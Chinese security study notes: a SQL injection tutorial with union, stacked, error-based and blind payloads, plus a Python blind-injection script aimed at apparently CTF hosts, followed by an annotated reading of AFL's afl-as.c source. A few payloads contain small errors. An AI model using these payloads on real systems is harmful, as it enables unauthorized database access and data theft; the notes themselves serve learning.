





# SQL注入

## 注入类型

### 数字型注入

数字型注入时不会使用单引号将输入转换为字符串如**select * from <表名> where id = x**

通常可以使用and 1=1 和 and 1=2来判断

当输入 and 1=1时后台，后台执行 Sql 语句：

**select * from <表名> where id = x and 1=1**

没有语法错误且逻辑正确，返回正常

当输入 and 1=2时后台，后台执行 Sql 语句：

**select * from <表名> where id = x and 1=2**

没有语法错误但and 1=2发生逻辑错误，返回异常

### 字符型注入

字符型注入语句通常为**select * from <表名> where id = 'x'**

通常使用and '1'='1 和 and '1'='2来进行单引号闭合判断：

当输入 and '1'='1时后台，后台执行 Sql 语句：

**select * from <表名> where id = 'x' and '1'='1'**

没有语法错误且逻辑正确，返回正常

当输入 and '1'='2时后台，后台执行 Sql 语句：

**select * from <表名> where id = 'x' and '1'='2'**

没有语法错误但and '1'='2发生逻辑错误，返回异常

## 注入方式

### 普通注入

首先使用order by来判断列数

如果**1' order by 4#**报错，**1' order by 3**没有报错代表有三列存在


接下来爆出数据库库名,

**1' union select 1,database(),3#**

**1' union select 1,group_concat(schema_name),3 from information_schema.schemata#**


根据数据库名爆出表名

**1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库'#**


根据表名爆出列名

**1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='数据表'#**


根据列名爆出数据

**1' union select 1,group_concat(0x7e,字段,0x7e),3 from 数据表#**

### 堆叠注入

将多条sql语句堆叠起来同时执行完成注入

首先使用show语句爆出表名

**1'; show tables;#**


然后查询对应表的列名

**1'; show columns from 数据表;#**


因为经常因为过滤select才使用堆叠注入所以最后爆数据时我们可以使用预编译方法来查询

**1';prepare stmt from CONCAT('se','lect flag from 数据表);EXECUTE stmt;#**

### 报错注入

我们可以利用updatexml(a,b,c)报错时会将b显示出来的特性来进行注入。该函数的a，c必须为String，当其不为String时就会进行报错，也可以使用extractvalue函数

首先来爆出数据库名

**1' or (updatexml(1,concat(0x7e,database(),0x7e),1))#**


接下来爆出数据库库名，group_concat可以将数据列为一行,concat则将数据变为一列

**1' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema =database()),0x7e),1))#**


根据表名爆出列名

**1' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.column_names where table_schema ='表名'),0x7e),1))#**


根据列名爆出数据

**1' or updatexml(1,concat(0x7e,(select group_concat(password,25) from H4rDsq1),0x7e),1)#**

### 盲注

一般适用于页面没有回显字段(不支持联合查询)，且web页面返回True 或者 false时

#### 布尔盲注

首先因为没有回显所以我们要先猜测数据库长度

**1' or (length(database())=8)**


接着我们要对数据库名的每个字母进行猜测，使用left从左到右

**1' or (left(database(),1)='s')**


接下来对数据库的表名开始逐个字母进行猜测 ，使用for循环和substr挨个校对

**1' or substr((select group_concat(table_name) from information_schema.tables where table_schema =database()),i,1)='a'**


然后爆破各个表的列名

**1' or substr((select group_concat(column_name) from information_schema.column_names where table_name =数据库),i,1)='a'**


找到对应列就可以开始爆数据

**1' or substr((select group_concat(列名) from 数据库),i,1)='a'**

布尔盲注脚本

```python
import requests


r = requests.get("http://10.140.32.159:48032/index.html?id=0'union SELECT 1,1--")
print(r.text)
import requests
import numpy as np
a1 =np.arange(97,123)
b2=[chr(i) for i in range(ord('A'),ord('Z')+1)]
b = [chr(i)for i in a1]
c = [',','_',' ']

for i in range(len(c)):
    b.append(c[i])
for i in range(len(b2)):
    b.append(b2[i])


d =np.arange(32,127)
d1 = [chr(i)for i in d]
def getdata(column,table):
    url = "http://8.130.166.246:47045/web1.php"
    j = 1
    col = ''
    while True:
        for i in b:
            new_url = url + "?ID=1' or substr((select group_concat({}) from {}),{},1)='".format(column, table, j)+i
            print(new_url)
            r = requests.get(new_url)
            print(r.text)
            print(i)
            # 如果返回的页面有query_success，即盲猜成功，跳过余下的for循环
            if 'ddlliilllii' in r.text:
                # 显示fla
                col=col+i
                print(i, end="")
                break
            print(col)
        if len(col)<j:
            col=col+' '
        j = j + 1
def getcolumncolumn(table):
    url = "http://8.130.166.246:47025/web1.php"
    while True:
        for i in range(100):
            new_url = url + "?ID=1' or cast((select COUNT(*) from {}) as varchar)='".format(table)+str(i)
            print(new_url)
            r = requests.get(new_url)
            print(r.text)
            print(i)
            # 如果返回的页面有query_success，即盲猜成功，跳过余下的for循环
            if 'ddlliilllii' in r.text:
                # 显示fla
                print(i, end="")
                break
def tablecolumn(table):
    url = "http://8.130.166.246:47063/web1.php"
    j = 1
    col = ''
    while True:
        for i in d1:
            new_url = url + "?ID=1' or substr((select group_concat({}) from ctf),{},1)='".format(table,j) + str(i)
            print(new_url)
            r = requests.get(new_url)
            print(r.text)
            print(i)
            # 如果返回的页面有query_success，即盲猜成功，跳过余下的for循环
            if 'ddlliilllii' in r.text:
                # 显示fla
                col = col + i
                print(i, end="")
                break
            print(col)
        if len(col) < j:
            col = col + ' '
        j = j + 1
print(tablecolumn('ID'))
```

## 过滤绕过

### Burp Suite过滤检测


首先我们用BurpSuite进行抓包



然后右键选择Sent to Intruder

接着我们选择我们的注入点然后添加payload标记



接着进入Payloads选择Load我们准备好的SQL注入字典



最后点击Start attack然后根据返回的Length来判断是否被过滤

# AFL Fuzz源码阅读

## AFL-as.c

```c
/*
  Copyright 2013 Google LLC All rights reserved.

  Licensed under the Apache License, Version 2.0 (the "License");
  you may not use this file except in compliance with the License.
  You may obtain a copy of the License at:

    http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
*/

/*
   american fuzzy lop - wrapper for GNU as
   ---------------------------------------

   Written and maintained by Michal Zalewski <lcamtuf@google.com>

   The sole purpose of this wrapper is to preprocess assembly files generated
   by GCC / clang and inject the instrumentation bits included from afl-as.h. It
   is automatically invoked by the toolchain when compiling programs using
   afl-gcc / afl-clang.

   Note that it's an explicit non-goal to instrument hand-written assembly,
   be it in separate .s files or in __asm__ blocks. The only aspiration this
   utility has right now is to be able to skip them gracefully and allow the
   compilation process to continue.

   That said, see experimental/clang_asm_normalize/ for a solution that may
   allow clang users to make things work even with hand-crafted assembly. Just
   note that there is no equivalent for GCC.

*/

#define AFL_MAIN

#include "config.h"
#include "types.h"
#include "debug.h"
#include "alloc-inl.h"

#include "afl-as.h"

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <ctype.h>
#include <fcntl.h>

#include <sys/wait.h>
#include <sys/time.h>

static u8** as_params;          /* Parameters passed to the real 'as'   */

static u8*  input_file;         /* Originally specified input file      */
static u8*  modified_file;      /* Instrumented file for the real 'as'  */

static u8   be_quiet,           /* Quiet mode (no stderr output)        */
            clang_mode,         /* Running in clang mode?               */
            pass_thru,          /* Just pass data through?              */
            just_version,       /* Just show version?                   */
            sanitizer;          /* Using ASAN / MSAN                    */

static u32  inst_ratio = 100,   /* Instrumentation probability (%)      */
            as_par_cnt = 1;     /* Number of params to 'as'             */

/* If we don't find --32 or --64 in the command line, default to 
   instrumentation for whichever mode we were compiled with. This is not
   perfect, but should do the trick for almost all use cases. */

#ifdef WORD_SIZE_64

static u8   use_64bit = 1;

#else

static u8   use_64bit = 0;

#ifdef __APPLE__
#  error "Sorry, 32-bit Apple platforms are not supported."
#endif /* __APPLE__ */

#endif /* ^WORD_SIZE_64 */


/* Examine and modify parameters to pass to 'as'. Note that the file name
   is always the last parameter passed by GCC, so we exploit this property
   to keep the code simple. */

static void edit_params(int argc, char** argv) {

  u8 *tmp_dir = getenv("TMPDIR"), *afl_as = getenv("AFL_AS");
  u32 i;

#ifdef __APPLE__

  u8 use_clang_as = 0;

  /* On MacOS X, the Xcode cctool 'as' driver is a bit stale and does not work
     with the code generated by newer versions of clang that are hand-built
     by the user. See the thread here: http://goo.gl/HBWDtn.

     To work around this, when using clang and running without AFL_AS
     specified, we will actually call 'clang -c' instead of 'as -q' to
     compile the assembly file.

     The tools aren't cmdline-compatible, but at least for now, we can
     seemingly get away with this by making only very minor tweaks. Thanks
     to Nico Weber for the idea. */

  if (clang_mode && !afl_as) {

    use_clang_as = 1;

    afl_as = getenv("AFL_CC");
    if (!afl_as) afl_as = getenv("AFL_CXX");
    if (!afl_as) afl_as = "clang";

  }

#endif /* __APPLE__ */

  /* Although this is not documented, GCC also uses TEMP and TMP when TMPDIR
     is not set. We need to check these non-standard variables to properly
     handle the pass_thru logic later on. */

  if (!tmp_dir) tmp_dir = getenv("TEMP");
  if (!tmp_dir) tmp_dir = getenv("TMP");
  if (!tmp_dir) tmp_dir = "/tmp";

  as_params = ck_alloc((argc + 32) * sizeof(u8*));

  as_params[0] = afl_as ? afl_as : (u8*)"as";

  as_params[argc] = 0;

  for (i = 1; i < argc - 1; i++) {//选择操作系统位数

    if (!strcmp(argv[i], "--64")) use_64bit = 1;
    else if (!strcmp(argv[i], "--32")) use_64bit = 0;

#ifdef __APPLE__

    /* The Apple case is a bit different... */

    if (!strcmp(argv[i], "-arch") && i + 1 < argc) {//选择架构

      if (!strcmp(argv[i + 1], "x86_64")) use_64bit = 1;
      else if (!strcmp(argv[i + 1], "i386"))
        FATAL("Sorry, 32-bit Apple platforms are not supported.");

    }

    /* Strip options that set the preference for a particular upstream
       assembler in Xcode. */

    if (clang_mode && (!strcmp(argv[i], "-q") || !strcmp(argv[i], "-Q")))
      continue;

#endif /* __APPLE__ */

    as_params[as_par_cnt++] = argv[i];

  }

#ifdef __APPLE__

  /* When calling clang as the upstream assembler, append -c -x assembler
     and hope for the best. */

  if (use_clang_as) {

    as_params[as_par_cnt++] = "-c";
    as_params[as_par_cnt++] = "-x";
    as_params[as_par_cnt++] = "assembler";

  }

#endif /* __APPLE__ */

  input_file = argv[argc - 1];

  if (input_file[0] == '-') {

    if (!strcmp(input_file + 1, "-version")) {
      just_version = 1;
      modified_file = input_file;
      goto wrap_things_up;
    }

    if (input_file[1]) FATAL("Incorrect use (not called through afl-gcc?)");
      else input_file = NULL;

  } else {

    /* Check if this looks like a standard invocation as a part of an attempt
       to compile a program, rather than using gcc on an ad-hoc .s file in
       a format we may not understand. This works around an issue compiling
       NSS. */

    if (strncmp(input_file, tmp_dir, strlen(tmp_dir)) &&
        strncmp(input_file, "/var/tmp/", 9) &&
        strncmp(input_file, "/tmp/", 5)) pass_thru = 1;

  }

  modified_file = alloc_printf("%s/.afl-%u-%u.s", tmp_dir, getpid(),
                               (u32)time(NULL));

wrap_things_up:

  as_params[as_par_cnt++] = modified_file;
  as_params[as_par_cnt]   = NULL;

}


/* Process input file, generate modified_file. Insert instrumentation in all
   the appropriate places. */

static void add_instrumentation(void) {

  static u8 line[MAX_LINE];

  FILE* inf;
  FILE* outf;
  s32 outfd;
  u32 ins_lines = 0;

  u8  instr_ok = 0, skip_csect = 0, skip_next_label = 0,
      skip_intel = 0, skip_app = 0, instrument_next = 0;

#ifdef __APPLE__

  u8* colon_pos;

#endif /* __APPLE__ */

  if (input_file) {

    inf = fopen(input_file, "r");
    if (!inf) PFATAL("Unable to read '%s'", input_file);

  } else inf = stdin;//打开汇编代码

  outfd = open(modified_file, O_WRONLY | O_EXCL | O_CREAT, 0600);

  if (outfd < 0) PFATAL("Unable to write to '%s'", modified_file);

  outf = fdopen(outfd, "w");//开始写入原汇编代码

  if (!outf) PFATAL("fdopen() failed");  

  while (fgets(line, MAX_LINE, inf)) {//对汇编代码按行扫描
      /*
        instr_ok: 是否位于指令段中, eg:  .text
        skip_csect: 是否要跳过code section
        skip_next_label: 是否跳过对下一个标签的插桩

        skip_intel: 是否为intel语法的汇编, afl-as不对intel语法进行插桩, 会跳过
        skip_app: 是否遇到内联汇编, afl-as不对内联汇编插桩, 会跳过
        instrument_next: 表示已经遇到合适的标签, 需要在该标签的第一条指令前进行插桩.

    */

    /* 由于一个标签之后可能会有一些注释 宏之类的, 因此不能在遇到标签后立即插桩, 要进行一个推迟，如果符合插桩的条件, 并且设置了instrument_next, 并且本行以\t+字符开头, 就认为遇到了指令, 现在应该进行插桩了.先看后面, 再回头就会明白这段的作用 */

    if (!pass_thru && !skip_intel && !skip_app && !skip_csect && instr_ok &&
        instrument_next && line[0] == '\t' && isalpha(line[1])) {//判断一开始是否为tab，isalpha是一种函数：判断字符ch是否为英文字母，遇到合适的标签插桩

      fprintf(outf, use_64bit ? trampoline_fmt_64 : trampoline_fmt_32,
              R(MAP_SIZE));//根据操作系统位数写入插桩代码

      instrument_next = 0;
      ins_lines++;//总插桩数

    }

    /* Output the actual line, call it a day in pass-thru mode. */

    fputs(line, outf);//在插桩后写入源代码

    if (pass_thru) continue;

    /* All right, this is where the actual fun begins. For one, we only want to
       instrument the .text section. So, let's keep track of that in processed
       files - and let's set instr_ok accordingly. */

    if (line[0] == '\t' && line[1] == '.') {  // 遇到了伪指令标记, 比如.text .file等

      /* OpenBSD puts jump tables directly inline with the code, which is
         a bit annoying. They use a specific format of p2align directives
         around them, so we use that as a signal. */

      if (!clang_mode && instr_ok && !strncmp(line + 2, "p2align ", 8) &&
          isdigit(line[10]) && line[11] == '\n') skip_next_label = 1;  // OpenBSD直接把跳表放在代码里面. 他们通过p2align包裹跳表. 因此把这个当做一个信号进行跳过

      if (!strncmp(line + 2, "text\n", 5) ||
          !strncmp(line + 2, "section\t.text", 13) ||
          !strncmp(line + 2, "section\t__TEXT,__text", 21) ||
          !strncmp(line + 2, "section __TEXT,__text", 21)) {
        instr_ok = 1;
        continue; //只插桩text段
      }

      if (!strncmp(line + 2, "section\t", 8) ||
          !strncmp(line + 2, "section ", 8) ||
          !strncmp(line + 2, "bss\n", 4) ||
          !strncmp(line + 2, "data\n", 5)) {
        instr_ok = 0;
        continue;//不需要插桩的段结束后修改过来标志位
      }

    }


    if (strstr(line, ".code")) {  //探测异架构汇编, 遇到时设置skip_csect直到看到相反的命令, 并且不进行插桩

      if (strstr(line, ".code32")) skip_csect = use_64bit;//如果本段汇编为32位，AFL编译时用的是64位，则AFL编译时用的是64位=1，设置跳过标志位
      if (strstr(line, ".code64")) skip_csect = !use_64bit;//同理

    }

    
	//探测语法改变, 手写汇编可能会用到这个. 对intel汇编跳过插桩, 返回AT&T时恢复插桩
    if (strstr(line, ".intel_syntax")) skip_intel = 1;
    if (strstr(line, ".att_syntax")) skip_intel = 0;

    
	// #APP表示内联汇编的开始, #NO_APP表示内联汇编的结束, 不对内联汇编进行插桩
    if (line[0] == '#' || line[1] == '#') {

      if (strstr(line, "#APP")) skip_app = 1;
      if (strstr(line, "#NO_APP")) skip_app = 0;

    }

   
	//下列情况不进行插桩: intel汇编 内联汇编 异架构指令 不是代码段 以#开头的行 以空格开头的行
    if (skip_intel || skip_app || skip_csect || !instr_ok ||
        line[0] == '#' || line[0] == ' ') continue;

    /* Conditional branch instruction (jnz, etc). We append the instrumentation
       right after the branch (to instrument the not-taken path) and at the
       branch destination label (handled later on). */

    if (line[0] == '\t') {

      if (line[1] == 'j' && line[2] != 'm' && R(100) < inst_ratio) {

        fprintf(outf, use_64bit ? trampoline_fmt_64 : trampoline_fmt_32,
                R(MAP_SIZE));//处于分支跳转指令，直接在跳转指令下方进行插桩处理

        ins_lines++;

      }

      continue;

    }

    /* Label of some sort. This may be a branch destination, but we need to
       tread carefully and account for several different formatting
       conventions. */

#ifdef __APPLE__

    /* Apple: L<whatever><digit>: */

    if ((colon_pos = strstr(line, ":"))) {//如果遇到L后跟着数字就有可能是标签进行插桩

      if (line[0] == 'L' && isdigit(*(colon_pos - 1))) {

#else

    /* Everybody else: .L<whatever>: */

    if (strstr(line, ":")) {//如果遇到L0: or LBB0_0或者前面带.就有可能是apple的标签进行插桩

      if (line[0] == '.') {

#endif /* __APPLE__ */

        /* .L0: or LBB0_0: style jump destination */

#ifdef __APPLE__

        /* Apple: L<num> / LBB<num> */

        if ((isdigit(line[1]) || (clang_mode && !strncmp(line, "LBB", 3)))
            && R(100) < inst_ratio) {

#else

        /* Apple: .L<num> / .LBB<num> */

        if ((isdigit(line[2]) || (clang_mode && !strncmp(line + 1, "LBB", 3)))
            && R(100) < inst_ratio) {

#endif /* __APPLE__ */

          /* An optimization is possible here by adding the code only if the
             label is mentioned in the code in contexts other than call / jmp.
             That said, this complicates the code by requiring two-pass
             processing (messy with stdin), and results in a speed gain
             typically under 10%, because compilers are generally pretty good
             about not generating spurious intra-function jumps.

             We use deferred output chiefly to avoid disrupting
             .Lfunc_begin0-style exception handling calculations (a problem on
             MacOS X). */

          if (!skip_next_label) instrument_next = 1; else skip_next_label = 0;//非.开头, 则为函数标签, 也要插桩, 推迟到合适的时候
			
        }

      } else {

        /* Function label (always instrumented, deferred mode). */

        instrument_next = 1;
    
      }

    }

  }

  if (ins_lines)
    fputs(use_64bit ? main_payload_64 : main_payload_32, outf);

  if (input_file) fclose(inf);
  fclose(outf);

  if (!be_quiet) {

    if (!ins_lines) WARNF("No instrumentation targets found%s.",
                          pass_thru ? " (pass-thru mode)" : "");
    else OKF("Instrumented %u locations (%s-bit, %s mode, ratio %u%%).",
             ins_lines, use_64bit ? "64" : "32",
             getenv("AFL_HARDEN") ? "hardened" : 
             (sanitizer ? "ASAN/MSAN" : "non-hardened"),
             inst_ratio);
 
  }

}


/* Main entry point */

int main(int argc, char** argv) {

  s32 pid;
  u32 rand_seed;
  int status;
  u8* inst_ratio_str = getenv("AFL_INST_RATIO");

  struct timeval tv;
  struct timezone tz;

  clang_mode = !!getenv(CLANG_ENV_VAR);////是否为clang模式

  if (isatty(2) && !getenv("AFL_QUIET")) {

    SAYF(cCYA "afl-as " cBRI VERSION cRST " by <lcamtuf@google.com>\n");
 
  } else be_quiet = 1;

  if (argc < 2) {

    SAYF("\n"
         "This is a helper application for afl-fuzz. It is a wrapper around GNU 'as',\n"
         "executed by the toolchain whenever using afl-gcc or afl-clang. You probably\n"
         "don't want to run this program directly.\n\n"

         "Rarely, when dealing with extremely complex projects, it may be advisable to\n"
         "set AFL_INST_RATIO to a value less than 100 in order to reduce the odds of\n"
         "instrumenting every discovered branch.\n\n");

    exit(1);

  }

  gettimeofday(&tv, &tz);

  rand_seed = tv.tv_sec ^ tv.tv_usec ^ getpid();//根据时间和pid来随机化seed

  srandom(rand_seed);

  edit_params(argc, argv);

  if (inst_ratio_str) {// 插桩的概率

    if (sscanf(inst_ratio_str, "%u", &inst_ratio) != 1 || inst_ratio > 100) 
      FATAL("Bad value of AFL_INST_RATIO (must be between 0 and 100)");

  }

  if (getenv(AS_LOOP_ENV_VAR))
    FATAL("Endless loop when calling 'as' (remove '.' from your PATH)");

  setenv(AS_LOOP_ENV_VAR, "1", 1);

  /* When compiling with ASAN, we don't have a particularly elegant way to skip
     ASAN-specific branches. But we can probabilistically compensate for
     that... */
    //读取环境变量AFL_USE_ASAN和AFL_USE_MSAN的值，如果其中有一个为1，则设置sanitizer为1，且将inst_ratio除3。
    //这是因为在进行ASAN的编译时，AFL无法识别出ASAN特定的分支，导致插入很多无意义的桩代码，所以直接暴力地将插桩概率/3；

  if (getenv("AFL_USE_ASAN") || getenv("AFL_USE_MSAN")) {
    sanitizer = 1;
    inst_ratio /= 3;
  }

  if (!just_version) add_instrumentation();

  if (!(pid = fork())) {

    execvp(as_params[0], (char**)as_params);
    FATAL("Oops, failed to execute '%s' - check your PATH", as_params[0]);

  }

  if (pid < 0) PFATAL("fork() failed");

  if (waitpid(pid, &status, 0) <= 0) PFATAL("waitpid() failed");

  if (!getenv("AFL_KEEP_ASSEMBLY")) unlink(modified_file);

  exit(WEXITSTATUS(status));

}
```

